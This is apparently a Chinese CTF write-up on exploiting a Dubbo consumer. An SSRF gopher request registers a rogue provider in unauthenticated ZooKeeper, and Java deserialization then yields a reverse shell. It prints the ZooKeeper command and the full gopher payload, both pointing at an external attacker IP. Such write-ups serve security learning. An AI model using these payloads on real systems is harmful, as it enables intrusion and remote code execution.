 # WP

## 题目附件
给选手提供dockerfile

## 题目描述
题目8080端口是一个dubbo服务，8090端口是一个php ssrf，支持gopher。
参考dockerfile可以看到，flag在dubbo-consumer中，而consumer只有web端口开放，因此需要借助ssrf实现dubbo-consumer rce

## 解题思路
### Step 1
首先要明白dubbo consumer与provider的通信。consumer从zookeeper中拿到注册的provider地址，然后与provider进行rpc，但是zookeeper通常是未授权的，因此我们可以通过ssrf攻击zookeeper改变provider的地址，这样consumer就能访问我们的evil provider了。

### Step 2
dubbo consumer在处理provider返回的数据时，会对rpc结果进行反序列化，反序列化的方式由返回的flag决定。
题目的pom中不存在dubbo hessian的gadget，只有cc3，因此可以通过一个evil provider实现java反序列化。

## exp

### Step 1
通过ssrf创建一个provider节点，也就是exp.py实现的内容
```
create /dubbo/dubbo.service.DemoService/providers/dubbo%3A%2F%2F139.199.203.253%3A20890%2Fdubbo.service.DemoService%3Fanyhost%3Dtrue%26application%3Ddubbo-provider%26bean.name%3DServiceBean%3Adubbo.service.DemoService%3A1.0.0%26deprecated%3Dfalse%26dubbo%3D2.0.2%26dynamic%3Dtrue%26generic%3Dfalse%26interface%3Ddubbo.service.DemoService%26methods%3DsayHello%26pid%3D41643%26register%3Dtrue%26release%3D2.7.3%26revision%3D1.0.0%26side%3Dprovider%26serialization%3djava%26timestamp%3D1605961792779%26version%3D1.0.0 139.199.203.253

curl gopher://127.0.0.1:9991/_%00%00%00%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%75%30%00%00%00%00%00%00%00%00%00%00%00%10%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%02%39%00%00%00%2e%00%00%00%01%00%00%01%fb%2f%64%75%62%62%6f%2f%64%75%62%62%6f%2e%73%65%72%76%69%63%65%2e%44%65%6d%6f%53%65%72%76%69%63%65%2f%70%72%6f%76%69%64%65%72%73%2f%64%75%62%62%6f%25%33%41%25%32%46%25%32%46%31%33%39%2e%31%39%39%2e%32%30%33%2e%32%35%33%25%33%41%32%30%38%39%30%25%32%46%64%75%62%62%6f%2e%73%65%72%76%69%63%65%2e%44%65%6d%6f%53%65%72%76%69%63%65%25%33%46%61%6e%79%68%6f%73%74%25%33%44%74%72%75%65%25%32%36%61%70%70%6c%69%63%61%74%69%6f%6e%25%33%44%64%75%62%62%6f%2d%70%72%6f%76%69%64%65%72%25%32%36%62%65%61%6e%2e%6e%61%6d%65%25%33%44%53%65%72%76%69%63%65%42%65%61%6e%25%33%41%64%75%62%62%6f%2e%73%65%72%76%69%63%65%2e%44%65%6d%6f%53%65%72%76%69%63%65%25%33%41%31%2e%30%2e%30%25%32%36%64%65%70%72%65%63%61%74%65%64%25%33%44%66%61%6c%73%65%25%32%36%64%75%62%62%6f%25%33%44%32%2e%30%2e%32%25%32%36%64%79%6e%61%6d%69%63%25%33%44%74%72%75%65%25%32%36%67%65%6e%65%72%69%63%25%33%44%66%61%6c%73%65%25%32%36%69%6e%74%65%72%66%61%63%65%25%33%44%64%75%62%62%6f%2e%73%65%72%76%69%63%65%2e%44%65%6d%6f%53%65%72%76%69%63%65%25%32%36%6d%65%74%68%6f%64%73%25%33%44%73%61%79%48%65%6c%6c%6f%25%32%36%70%69%64%25%33%44%34%31%36%34%33%25%32%36%72%65%67%69%73%74%65%72%25%33%44%74%72%75%65%25%32%36%72%65%6c%65%61%73%65%25%33%44%32%2e%37%2e%33%25%32%36%72%65%76%69%73%69%6f%6e%25%33%44%31%2e%30%2e%30%25%32%36%73%69%64%65%25%33%44%70%72%6f%76%69%64%65%72%25%32%36%73%65%72%69%61%6c%69%7a%61%74%69%6f%6e%25%33%64%6a%61%76%61%25%32%36%74%69%6d%65%73%74%61%6d%70%25%33%44%31%36%30%35%39%36%31%37%39%32%37%37%39%25%32%36%76%65%72%73%69%6f%6e%25%33%44%31%2e%30%2e%30%00%00%00%0f%31%33%39%2e%31%39%39%2e%32%30%33%2e%32%35%33%00%00%00%01%00%00%00%1f%00%00%00%05%77%6f%72%6c%64%00%00%00%06%61%6e%79%6f%6e%65%00%00%00%00
```
![16059602198446](https://pic-1257433408.cos.ap-chengdu.myqcloud.com/2021/02/18/16059602198446.jpg)


### Step 2
编译java_exp文件夹中的项目得到exp.jar，在vps上运行exp.jar，再在另一台上监听，即可收到shell

![](https://pic-1257433408.cos.ap-chengdu.myqcloud.com/2021/02/18/16136467658807.jpg)

